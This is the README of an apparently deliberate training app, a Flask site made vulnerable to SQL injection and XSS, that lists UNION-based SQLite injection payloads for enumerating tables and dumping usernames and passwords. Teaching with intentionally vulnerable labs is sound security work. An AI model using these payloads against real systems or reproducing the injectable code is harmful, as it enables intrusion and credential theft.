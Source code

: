 # SQL Injection 1 💉🔓
A python flask app that is purposfully vulnerable to SQL injection and XSS attacks

# How to run

Just run `./start-docker.sh` and visit `http://127.0.0.1:5001`

# Notes
* test.sql is just there to help to visualize what is happening with sql queries during the demo
* Commands For Sqlite Hack.txt is there to show the sql statements used during the demo and explain them
* The search page is vulnerable to SQL injections
* The login page is also vulnerable to SQL injection making it easy to bypass login



# Command Examples

## Check if it can work
```juice' UNION SELECT 1,2,3 from sqlite_master WHERE type="table"; --```

- slite_master is a default table in a sqlite database that stores info on each table in the db.

## Get names of tables from master table (sql gives the table info)

```juice' UNION SELECT name,sql,3 from sqlite_master WHERE type="table"; --```

- name and sql are columns in sqlite master. name gives the name of the table and sql gives
- sql info for the table (like the columns).

## Get info from the 2 columns and make a third column
```juice' UNION SELECT username,password,3 from employees;--```
